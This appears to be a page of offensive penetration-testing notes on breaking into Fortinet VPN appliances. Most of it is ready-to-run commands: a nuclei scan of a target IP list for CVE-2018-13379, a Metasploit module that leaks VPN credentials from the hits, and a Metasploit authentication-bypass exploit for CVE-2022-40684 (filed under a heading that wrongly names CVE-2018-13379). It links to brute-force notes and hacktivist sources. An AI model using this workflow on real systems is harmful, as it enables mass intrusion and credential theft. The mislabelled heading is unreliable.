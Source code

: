 # Fortinet

## 01 - CVEs

### 1.1 - CVE-2018-13379

To find targets

Use nuclei to scan for vulnerable devices and remove false positives.

```
$ nuclei -l target_ips.txt -t ~/nuclei-templates -id CVE-2018-13379 -o fortinet-vulnerable-applances-output.txt
```

Then exploit it with `metasploit-framework` auxiliary module.

```
msf > use auxiliary/gather/fortios_vpnssl_traversal_creds_leak

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > set rhosts file:fortinet-vulnerable-applances-output.txt

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > set rport 10443

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > run
```

### 1.2 - CVE-2018-13379

```
msf > use exploit/linux/http/fortinet_authentication_bypass_cve_2022_40684

msf exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > set rhosts file:10443_ips.txt

msf exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > set rport 10443

msf exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > check
```

## 02 - Bruteforce

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Online/Network Protocols/Remote Services/VPN/VPN Appliances/Fortinet|section]] for bruteforcing Fortinet VPN appliance.

---
## References

- [[VPN Appliances|Google Dork: VPN Appliances]]

- [7Elements: Fortigate](https://github.com/7Elements/Fortigate)

- [Enlace Hacktivista: Fortinet SSL VPN Path Traversal](https://enlacehacktivista.org/index.php?title=Fortinet_SSL_VPN_Path_Traversal)

- [VX Underground Papers: Bassterloard (FishEye) Networking Manual](https://web.archive.org/web/20230531145531/https://papers.vx-underground.org/papers/Malware%20Defense/Malware%20Analysis%202021/2021-08-31%20-%20Bassterlord%20%28FishEye%29%20Networking%20Manual%20%28X%29.pdf)
